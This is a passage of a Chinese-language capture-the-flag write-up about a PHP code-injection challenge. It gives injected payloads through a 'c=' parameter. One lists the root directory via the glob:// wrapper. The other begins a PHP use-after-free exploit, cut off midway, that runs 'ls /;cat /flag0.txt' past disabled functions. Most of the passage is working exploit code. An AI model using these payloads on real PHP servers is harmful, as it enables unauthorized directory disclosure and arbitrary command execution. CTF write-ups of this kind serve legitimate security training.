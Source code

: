 ![image-20241129151607469](./assets/image-20241129151607469.png)

或者

payload：（记得删注释）

```php
c=?><?php $a = opendir("glob:///*"); // 打开根目录，并将目录句柄赋值给$a
while (($file = readdir($a)) !== false) { // 循环读取目录中的每个条目
    echo $file . "<br>"; // 输出每个条目的名称，并添加HTML换行标签
};
exit(0); // 终止脚本执行
?>
```

我们可以发现flag0.php

利用uaf的脚本进行命令利用uaf的脚本进行命令执行执行：

尝试执行ls /; cat /flag0.txt命令

```php
c=?><?php
pwn("ls /;cat /flag0.txt");
 
function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }
 
    class Helper {
        public $a, $b, $c, $d;
```